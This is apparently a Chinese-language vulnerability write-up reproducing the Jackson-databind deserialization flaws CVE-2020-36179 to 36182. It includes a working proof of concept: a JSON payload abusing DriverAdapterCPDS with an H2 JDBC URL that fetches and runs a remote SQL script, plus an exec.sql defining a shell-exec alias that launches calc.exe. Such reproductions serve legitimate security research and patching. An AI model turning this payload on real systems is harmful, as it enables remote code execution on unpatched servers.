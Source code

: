 # Jackson-databind SSRF&RCE CVE-2020-36179~36182

## 漏洞描述

漏洞类型：JDNI注入导致RCE

利用条件：

- 开启enableDefaultTyping()
- 使用了org.apache.servicemix.bundles第三方依赖库

以下类绕过了之前jackson-databind维护的黑名单类，并且JDK版本较低的话，可造成SSRF&RCE：

- CVE-2020-36179：org.apache.commons.dbcp.cpdsadapter.DriverAdapterCPDS
- CVE-2020-36180:  org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS
- CVE-2020-36181:  org.apache.tomcat.dbcp.dbcp.cpdsadapter.DriverAdapterCPDS
- CVE-2020-36182:  org.apache.tomcat.dbcp.dbcp2.cpdsadapter.DriverAdapterCPDS

参考链接：

- https://github.com/Al1ex/CVE-2020-36179

## 漏洞影响

```
Jackson-databind < 2.9.10.7
```

## 漏洞复现

pom.xml：

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>com.jacksonTest</groupId>
    <artifactId>jacksonTest</artifactId>
    <version>1.0-SNAPSHOT</version>
    <dependencies>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-databind</artifactId>
            <version>2.9.10.7</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/org.apache.commons/commons-dbcp2 -->
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-dbcp2</artifactId>
            <version>2.8.0</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/com.h2database/h2 -->
        <dependency>
            <groupId>com.h2database</groupId>
            <artifactId>h2</artifactId>
            <version>1.4.199</version>
        </dependency>

        <dependency>
            <groupId>org.slf4j</groupId>
            <artifactId>slf4j-nop</artifactId>
            <version>1.7.2</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/javax.transaction/jta -->
        <dependency>
            <groupId>javax.transaction</groupId>
            <artifactId>jta</artifactId>
            <version>1.1</version>
        </dependency>
    </dependencies>
</project>
```

exec.sql：

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('calc.exe')
```

poc.java：

```
import com.fasterxml.jackson.databind.ObjectMapper;
import com.fasterxml.jackson.databind.SerializationFeature;


public class POC {
    public static void main(String[] args) throws Exception {
        String payload = "[\"org.apache.commons.dbcp2.cpdsadapter.DriverAdapterCPDS\",{\"url\":\"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:3333/exec.sql'\"}]";
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        mapper.configure(SerializationFeature.FAIL_ON_EMPTY_BEANS, false);
        Object obj = mapper.readValue(payload, Object.class);
        mapper.writeValueAsString(obj);
    }
}
```

![](images/20221206110853.jpg)

Gadget：

```
DriverAdapterCPDS
    ->seturl
        ->getPooledConnection
            ->DirverManager.getConnection(this.url,username,pass)
```

